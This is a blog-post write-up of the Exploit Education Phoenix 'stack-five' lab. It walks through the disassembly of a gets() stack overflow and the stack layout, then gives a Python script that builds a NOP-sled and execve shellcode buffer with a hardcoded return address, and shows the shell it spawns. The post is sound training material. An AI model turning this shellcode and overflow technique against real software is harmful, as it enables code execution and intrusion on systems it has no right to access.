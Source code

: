 ```yaml
---
layout: post
title: Stack Five Writeup (Code Execution) - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Five exercise stack-overflow vulnerability with learning resources.
comments: true
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Four, Stack Five exercise motives are smashing the stack, overwrite return address (`$rsp`) and redirect the program to execute shellcode. Similar to previous stack post series, `gets` function is utilized which can pave way to overflow and execute shellcode (code execution) in the context of binary.

### Disassemble

Disassembling the code will get you overall idea behind the stack-five code, One can use `gdb ./stack-five` to start debugging it in runtime.

1. `gdb ./stack-five`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004005a4 <+0>:     push   rbp
   0x00000000004005a5 <+1>:     mov    rbp,rsp
   0x00000000004005a8 <+4>:     sub    rsp,0x10
   0x00000000004005ac <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:    mov    edi,0x400620
   0x00000000004005b8 <+20>:    call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:    mov    eax,0x0
   0x00000000004005c2 <+30>:    call   0x40058d <start_level>
   0x00000000004005c7 <+35>:    mov    eax,0x0
   0x00000000004005cc <+40>:    leave
   0x00000000004005cd <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave
   0x00000000004005a3 <+22>:    ret
```

Before taking a look at the code, if you disassembled the stack-five using gdb to view the assembly instruction, you may notice the puts, start_level and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-five, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x4005c2`
4. Accepts user input via `gets` method with `buffer` memory address.
5. The program automatically exits from `main` method returning back to invoker.

### Primary Goal

The primary goal of this exercise is to make you overwrite the return address stack in `start_level` redirect to `shellcode` and gain code execution. If you remember from previous writeups, the next instruction (return address) as `$rsp` stack pointer stays in stack and consumed by `$rip` register aka instruction pointer.

![Illustration of Stack Five exploit](/assets/media/stack-five-stack-overflow.png)

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `start_level` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe648`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). 

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-five-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x80` i.e `0x7fffffff45c0` and `$rbp` register (8 bytes) at `rbp-0x10` i.e `0x7fffffffe648`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rsp` aka stack pointer stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x80` towards `$rbp-0x10` i.e `0x7fffffffe648`.

<sup> *check `Trial and Error section` to learn about why address slightly differs while executing in gdb vs seperate program invoked from shell</sup>

### Exploit

As we know that `gets` function prone to stack/buffer overflow based on context, We're about to carefully plan the exploit and plant the shellcode within the buffer and overwrite `$rbp` base pointer, `$rsp` stack pointer and redirect the program to shellcode address. Unlike real word scenario such as `ASLR - Address Layout Randomization` and other preventions in place, We now get a chance to hardcode the `buffer` address which 💯% static in this environment. Let's now visit the malicious buffer construction,

1. Initialize the buffer with `NOP` instructions `0x90` for safety
2. Place the exact shellcode 
3. Fill the buffer with remaining character (`0x41` - A) i.e (size of buffer) minus (above filled character length)
4. Overwrite the `$rbp` with 8 characters (say 8 bytes)
5. Time to overwrite the `$rsp` with actual buffer start address i.e `0x7fffffff45f0`

So, here goes the exploit buffer generated with python code,

```python
# Initial Padding with NOP instruction
buf = "\x90" * 30 
# Actual SHELL Code
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# Remaining padding 
buf += "A" * (128 - len(buf)) 
# Overwrite $rbp (base pointer)
buf += 'BBBBBBBB'
# Overwrite $rsp (consumed by $rip - instruction pointer) 
buf += '\xf0\xe5\xff\xff\xff\x7f' 
# Finally print and redirect this ouput to stack-five binary
print buf 
```

### Result

`> (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five`

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)
whoami
phoenix-amd64-stack-five
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲



### Trial & Errors

I'm including this trial and error section to learn more about debugging and failures I came across while solving this problem,

1. #### Why does address differs in `GDB` vs while executing from shell?

   The answer boils down to the environment variables that are automatically being set by `gdb` such as `LINES` & `COLUMNS`. So, when the environment variables are added to the program the stack gets pushed down and thus address varies.

   - #### How do I fix this and simulate similar to real world program execution?

      1. Simply use `unset env LINES` & `unset env COLUMNS` commands to reset environment variables in `gdb`
      2. Use mature tools like `pwntools` - [python library](https://github.com/Gallopsled/pwntools) which helps write exploits and hooks to gdb automatically upon execution.

2. #### My exploit successfully invokes shell (/bin/dash) but doesn't ouput any results or terminates abruptly?

   That's probably because you haven't included the output redirection to your exploit script after invoking shell. For instance `Generated Shell Code; Cat` cat command can help in redirecting the output of the shell commands and wait listening like interactive mode. Check `Results` section for the exact exploit code and appended command.

3. #### My stack-five exploit works in `GDB` but not in terminal ?

   This is due to address padding by environment variables in `gdb`. Check Answer #1 for detailed explanation.

4. #### Where do you get the Shell Code for x86 Arch ?

   This one is actually trial and error, You can get the shellcode based on your arch (x86, x64) in [shell-storm](https://shell-storm.org/shellcode/index.html)

### Source and Reference:

1. Stack Five Exercise: [Exploit Education](https://exploit.education/phoenix/stack-five/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
